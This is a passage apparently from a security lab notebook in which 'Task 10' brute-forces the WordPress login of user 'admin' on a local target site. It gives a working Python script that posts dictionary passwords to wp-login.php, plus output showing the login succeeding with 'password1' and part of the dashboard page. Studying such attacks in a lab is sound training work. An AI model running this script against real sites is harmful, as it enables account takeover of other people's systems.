     wp_attempt_focus();
    if(typeof wpOnload=='function')wpOnload();
       </script>
       <p id="backtoblog">
        <a href="/">
         ← Back to Target WordPress
        </a>
       </p>
      </div>
      <div class="clear">
      </div>
     </body>
    </html>
    


## Attack

**Task 10:** Bruteforce the wordpress login for user "admin". Use the given dictionary.


```python
import requests

password_dict="password_dictionary.txt"

# Loading the password dictionary and Striping \n
lines = [line.rstrip('\n') for line in open(password_dict)]

for password in lines:
    print("Trying with password: ",password)
    resp = requests.post('http://localhost/wp-login.php', data = {'log':'admin', 'pwd': password })
    if "ERROR" not in resp.text:
        print("Login successful with password: ",password)
        break

print(resp.text)
```

    Trying with password:  123456
    Trying with password:  12345
    Trying with password:  1234
    Trying with password:  1234567
    Trying with password:  dragon
    Trying with password:  baseball
    Trying with password:  abc123
    Trying with password:  letmein
    Trying with password:  696969
    Trying with password:  shadow
    Trying with password:  michael
    Trying with password:  654321
    Trying with password:  password
    Trying with password:  superman
    Trying with password:  password1
    Login successful with password:  password1
    <!DOCTYPE html>
    <!--[if IE 8]>
    <html xmlns="http://www.w3.org/1999/xhtml" class="ie8 wp-toolbar"  lang="en-US">
    <![endif]-->
    <!--[if !(IE 8) ]><!-->
    <html xmlns="http://www.w3.org/1999/xhtml" class="wp-toolbar"  lang="en-US">
    <!--<![endif]-->
    <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <title>Dashboard &lsaquo; Target WordPress &#8212; WordPress</title>
    <script type="text/javascript">
